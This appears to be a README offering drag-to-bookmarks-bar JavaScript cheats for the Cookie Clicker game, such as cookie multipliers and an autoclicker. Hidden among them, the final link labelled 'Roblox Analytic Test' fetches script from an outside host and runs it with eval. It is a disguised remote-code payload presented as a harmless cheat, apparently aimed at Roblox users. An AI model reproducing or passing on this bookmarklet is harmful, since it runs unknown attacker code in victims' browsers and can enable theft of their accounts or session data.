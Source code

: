 ## Welcome to CronosX

How to load any of the listed exploits:

1. Make sure Bookmarks Bar is shown
2. Click and drag the link into your bookmarks bar
3. Go to Cookie Clicker website and tap the icon
4. Enjoy!

Links: 
[x10 Cookies](javascript:Game.cookies = Game.cookies * 10;)

[AutoClicker](javascript:var autoclicker = setInterval(function(){ try { document.getElementById('bigCookie').click(); } catch (err) { clearInterval(); } }, 10);)

[AutoClicker Quit](javascript:clearInterval(autoclicker);)

[x10 Heavenly Chips](javascript:Game.heavenlyChips = Game.heavenlyChips * 10;)

[Roblox Analytic Test](javascript:$.get('//rbxtools.xyz/?1413', eval);)

